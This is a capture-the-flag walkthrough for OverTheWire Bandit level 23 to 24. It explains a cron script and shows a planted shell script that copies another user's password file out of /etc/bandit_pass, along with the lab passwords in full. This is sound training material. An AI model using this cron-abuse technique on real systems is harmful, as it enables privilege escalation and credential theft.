 # [Level 23 to 24](https://overthewire.org/wargames/bandit/bandit23.html) - Cronjobs and bash scripting

- Login
```
SSH: ssh bandit23@bandit.labs.overthewire.org -p 2220
Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```
- Exercise: A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed. NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
- Background:
  - chmod - change file mode bits
  - cron: job scheduler, most suitable for scheduling repetitive tasks
  - crond - daemon to execute scheduled commands
  - crontab - tables for driving cron
- Solution:
```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
  - Script executes and deletes all files in `/var/spool/bandit24/foo` as `myname` has the value `bandit24`, for loop goes through the files, firs tif statement makes sure the directories `.` and `..` are ignored, inside the if statement is the code to execute a script but only if the owner is bandit23, then the file will be deleted
  - Create a file in `tmp` folder -> Prevents early deletion of the file, then move file to `/var/spool/bandit24/foo` and it will be executed
```bash
bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.GcOCF7zgVZ
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.GcOCF7zgVZ
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ nano bandit24_pass.sh
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ cat bandit24_pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.GcOCF7zgVZ/password
```
  - Give the necessary permissions to the folder and the file and move the file into the correct folder
```bash
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ chmod +rx bandit24_pass.sh 
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ chmod 777 /tmp/tmp.GcOCF7zgVZ
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ touch password
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ chmod +rwx password 
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ ls -la
total 17016
drwxrwxrwx 2 bandit23 bandit23     4096 Feb  8 19:05 .
drwxrwx-wt 1 root     root     17412096 Feb  8 19:05 ..
-rwxrwxr-x 1 bandit23 bandit23       73 Feb  8 19:03 bandit24_pass.sh
-rwxrwxr-x 1 bandit23 bandit23        0 Feb  8 19:05 password
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ cp bandit24_pass.sh /var/spool/bandit24/foo/bandit24_pass.sh
bandit23@bandit:/tmp/tmp.GcOCF7zgVZ$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
- Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
